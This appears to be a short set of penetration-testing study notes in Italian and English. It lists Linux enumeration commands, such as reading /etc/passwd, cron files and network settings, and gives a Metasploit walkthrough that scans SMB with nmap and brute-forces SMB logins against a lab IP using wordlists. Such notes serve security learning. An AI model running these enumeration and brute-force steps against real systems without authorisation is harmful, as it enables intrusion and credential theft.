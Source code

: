 ## Command on Linux
	• hostname (trova l'hostname del sistema)
	• cat /etc/issue (trova il nome distro di linux)
	• cat /etc/*release (trova la versione di linux)
	• uname -a (trova la versione del kernel di linux)
	• lscpu (trova le informazioni hardware del sistema)
	• df -h (trova la list degli storage con le varie informazioni tra cui dove sono montate)
	• whoami (ti dice in quale user account sei)
	• groups root (enumera i gruppi di cui fa parte root)
	• cat /etc/passwd (lista gli user and service accounts)
	• groups (enumera i gruppi che ci sono)
	• who (mostra gli utenti connessi ora, potrebbe non esserci utenti connessi da remoto o via ssh)
	• lastlog (lista tutti gli utenti con l'ultimo accesso fatto)
	• ip a s (mostra le varie interfaccie connesse)
	• cat /etc/networks (enumera la lista delle network configurate e i loro subnet)
	• cat /etc/hosts (enumera la lista dei domini mappati localmente e i rispettivi ip)
	• cat /etc/resolv.conf (trova l'ip del default DNS server name)
	• cat /etc/cron* (enumera la lista dei cron job)
	



# Example of Metasploit Framework: Exploiting SMB
### Check SMB protocols with nmap
 - nmap -p445 --script smb-protocols 10.3.23.123 <br>
<img src="smb.png" width=65% height="auto"><br><br>
### Perform brute force
 - msfconsole -q && service postgresql start
 - use auxiliary/scanner/smb/smb_login
 - set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
 - set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
 - set RHOSTS 10.3.23.123
 - set VERBOSE false
 - exploit (4 valid credentials) <br>